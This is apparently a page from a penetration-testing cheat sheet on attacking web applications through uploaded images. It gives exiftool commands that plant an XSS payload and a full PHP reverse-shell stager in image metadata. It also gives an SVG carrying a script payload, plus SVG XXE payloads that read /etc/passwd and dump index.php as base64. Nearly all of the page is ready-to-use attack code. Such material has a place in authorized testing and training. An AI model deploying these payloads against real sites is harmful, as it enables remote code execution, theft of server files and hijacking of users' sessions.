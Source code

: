 ### Metadata Injection

If the web application displays the image's metadata, a payload can be injected in one of the metadata's fields. When the image's metadata is displayed, the payload will be triggered.&#x20;

```bash
# injecting an XSS payload into the Comment field
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' image.jpg
```

{% code overflow="wrap" %}
```bash
# injecting a reverse shell payload into the Document Name field
exiftool -DocumentName='/*<?php /**/ error_reporting(0); $ip = "127.0.0.1"; $port = 4444; if (($f = "stream_socket_client") && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = "stream"; } elseif (($f = "fsockopen") && is_callable($f)) { $s = $f($ip, $port); $s_type = "stream"; } elseif (($f = "socket_create") && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = "socket"; } else { die("no socket funcs"); } if (!$s) { die("no socket"); } switch ($s_type) { case "stream": $len = fread($s, 4); break; case "socket": $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a["len"]; $b = ""; while (strlen($b) < $len) { switch ($s_type) { case "stream": $b .= fread($s, $len-strlen($b)); break; case "socket": $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS["msgsock"] = $s; $GLOBALS["msgsock_type"] = $s_type; eval($b); die(); __halt_compiler();' duck.jpg
     1 image files updated
```
{% endcode %}

If the metadata is not directly displayed, chaning the MIME-type to `text/html`, might cause the file to be treated as an HTML document and directly trigger the payload.

### SVGs

We can include XSS payloads within the XML data of SVG images. Once the image is displayed, the payload will be triggered.

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
{% endcode %}

We can also perform [XXE](../injections/xxei/) attacks using SVG images. This can be used for reading the web application's source files.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
{% endcode %}
